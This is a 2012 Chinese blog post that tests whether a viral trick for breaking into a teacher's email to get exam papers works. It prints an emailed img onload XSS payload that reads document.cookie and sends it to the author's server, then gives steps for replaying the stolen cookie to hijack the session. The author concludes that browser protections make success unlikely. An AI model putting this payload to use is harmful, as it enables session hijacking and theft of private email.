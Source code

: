 ```yaml
---
title: 看上去很美 为什么JSONP跨域获取cookie登录老师邮箱不现实
tags: 

  - cookie
  - jsonp
permalink: jsonp-cross-domain-get-cookie
id: 126
updated: '2012-12-30 15:24:39'
date: 2012-12-30 15:24:39
---
```


<p>昨天一位朋友在微博上看到一篇名为《如何通过入侵老师邮箱拿到期末考卷和修改成绩》的长微博，并@我问是否可行。我大概扫了一眼，第一反应就是现在哪还会有邮箱允许直接编辑 html 代码，退一万步讲，就算能编辑，怎么可能会让 onload 这种逆天的标签存在。不过当我使用自己学校的邮箱测试之后，发现&hellip;&hellip;我太天真了。</p>
<p>但是，这意味着网上流传的这篇文章是真的可行吗？经过实际测试，我认为成功的概率非常之低。下面介绍一下测试过程：</p>
<ul>
<li>我的邮箱：xxxxsen@bjut.edu.cn</li>
<li>朋友的邮箱：xxjie@bjut.edu.cn&nbsp;</li>
<li>欲实现的目的：发一封邮件给朋友，然后登陆朋友的邮箱（当然是不知道他的账号密码的前提下）</li>
</ul>
<h2>具体过程</h2>
<p>1、在自己的服务器上写一个 php 脚本，用来发送经过 JSONP 传来的 cookie</p>
<p>简单的说就是用 mail() 函数发送 $_GET['cookie']，详细代码不赘述</p>
<p>2、给朋友发一封邮件，内容为</p>
<pre class="brush: jscript;fontsize: 100; first-line: 1; ">&lt;img src="http://img.t.sinajs.cn/t35/style/images/common/face/ext/normal/5c/yw_org.gif" onload="var s = document.createElement('script'); var cookie = document.cookie; cookie = encodeURI(cookie); s.src='http://ask.xxxos.com/test.php?cookie=' + cookie; document.body.appendChild(s); "&gt;</pre>
<p>这封邮件表面看起来就是一个新浪微博的表情，但是却将 cookie escape 之后当一个参数传给了我第一步写好的脚本</p>
<p>3、朋友收到邮件，我也收到了他的 cookie，unescape</p>
<p>4、先用 chrome 登录自己的邮箱，打开控制台删除 cookie，然后在地址栏输入</p>
<p>javascript: document.cookie = 'unescape 之后的cookie'</p>
<p>5、刷新之后提示需要重新登录，在登录界面依然输入自己的账号密码，但是登录之后已经是朋友的邮箱了</p>
<h2>结果演示</h2>
<p>我的邮箱</p>
<p><img src="http://ww3.sinaimg.cn/mw690/831e9385jw1e0bs7yjrnwj.jpg" alt="我的邮箱" width="600" height="292" /></p>
<p>成功登录朋友的邮箱</p>
<p><img src="http://ww4.sinaimg.cn/mw690/831e9385jw1e0bs7xwq9fj.jpg" alt="朋友的邮箱" width="600" height="192" /></p>
<p>可以看到朋友邮箱最新收到的那封邮件，就是整个登录过程的关键。</p>
<h2>为什么不可行</h2>
<p>这篇文章不是为了重复一下网上已有的过程，而是为了说明虽然在技术上可以实现，但是在实际操作时，JSONP 跨域会遇到很多的问题。</p>
<p>PS.尤其上网上那篇文章针对的还是软件学院的老师，老师们上当的概率微乎其微。</p>
<p>1、Chrome 的现代浏览器会直接阻止跨域调用</p>
<p><img src="http://ww4.sinaimg.cn/mw690/831e9385jw1e0bs7quablj.jpg" alt="chrome 组织跨域调用" width="600" height="105" /></p>
<p>注意红框里的内容，chrome 直接阻止了 JSONP 的跨域请求</p>
<p>2、对于 IE 这些渣渣浏览器，也会提示有安全内容，也就是说这些东西是默认不加载的，除非老师心情好又点了一下显示安全内容</p>
<p><strong>IE 9 的安全提示</strong></p>
<p><img src="http://ww1.sinaimg.cn/mw690/831e9385jw1e0bs7xqy7uj.jpg" alt="ie9 安全提示" width="600" height="87" /></p>
<p><strong>IE 6 的安全提示</strong></p>
<p><img src="http://ww4.sinaimg.cn/mw690/831e9385jw1e0bs7rjg5dj.jpg" alt="ie6 安全提示" width="600" height="207" /></p>
<p>出于时间考虑，就没有测试更多的浏览器了（今天一天浪费了一大半啊！！），但是总的来说要成功是非常难的。</p>
<h2>怎样才能成功</h2>
<p>根据以上测试结果，我大概总结了一下必须满足哪些客观条件我们才能实现登录老师的邮箱：</p>
<ul>
<li>老师使用的是校内邮箱，且这些邮箱里有我们需要的资料</li>
<li>老师使用的是 IE 等渣渣浏览器</li>
<li>老师没事喜欢加载一些&ldquo;可能不安全的内容&rdquo;</li>
</ul>
<p>综合起来看，成功的概率不超过 5 %。</p>
